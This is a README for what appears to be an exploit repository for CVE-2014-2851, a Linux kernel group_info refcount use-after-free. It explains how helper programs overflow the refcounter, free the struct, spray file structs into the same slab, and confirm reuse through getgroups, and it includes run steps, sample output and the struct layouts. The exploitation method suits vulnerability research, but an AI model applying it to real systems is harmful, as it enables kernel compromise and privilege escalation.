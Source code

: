 linux
=====

This repository holds code to help exploiting CVE-2014-2851: Linux group_info refcounter overflow use afer free.

- ping_of.c calls ping_init_sock() argv[1] times. Doing this in python would make things too slow. 

- ping.py contains a client and a server function. 

The client function does the following:
- call ping_init_sock() to increase the refcounter
- call faccessat(), this syscall increments, then decrements the refcounter. If the refcounter became zero because of ping_init_sock, the group_info struct will be freed.
- requests the server to open 1000 file descriptors. On my system (32 bit ubuntu), the file structs are allocated in the same memcache as the group_info struct.(kmalloc-192)
- call getgroups(), if group_info has been freed and reused, this counter has been overwritten by another value. This way, we can see if group_info has been freed. 
we wait 15 seconds between faccessat and getgroups because the group_info struct may not have been overwritten yet.
 

The server should be called in a separate session because the credentials are shared between parent and child processes.

first, execute ping_of.c . This will increment the refcounter close to zero (e.g. -20).
next, in a different session,  execute "ping.py -s"
finally, in the first session, execute "ping.py -c"

[ Session 1 ]
```
t@tpollet-ubuntu-vm:/tmp$ ./ping_of -20
...
<output omitted>
...
t@tpollet-ubuntu-vm:/tmp$ ./ping.py -c
Starting client

numgroups: 8
numgroups: -1055523072
>
```
[Session 2]
```
t@tpollet-ubuntu-vm:/tmp$ ./ping.py -s
Starting Server
opening 1000 fds
opening 1000 fds
```
                        
The numgroups output by ping.py is returned by the getgroups system call. This comes from the group_info struct being overwritten by a file struct.
The group_info struct looks like this: 

```
include/linux/cred.h
32 struct group_info {
33         atomic_t        usage;            // refcounter
34         int             ngroups;          // return value of getgroups
35         int             nblocks;
36         kgid_t          small_block[NGROUPS_SMALL];
37         kgid_t          *blocks[0];
38 };
```
The file struct looks like this:
```
include/linux/fs.h
775 struct file {
776         union {
777                 struct llist_node       fu_llist;
778                 struct rcu_head         fu_rcuhead;
779         } f_u;
780         struct path             f_path;
781 #define f_dentry        f_path.dentry
782         struct inode            *f_inode;       /* cached value */
783         const struct file_operations    *f_op;
784 
....

include/linux/llist.h
65 struct llist_node {
66         struct llist_node *next;
67 };
```
So, after the free, getgroups() looks up the value on the location where ngroups was before it was freed. This location now holds fu_rcuhead .
We are still able to increment fu_llist by calling ping_init_sock().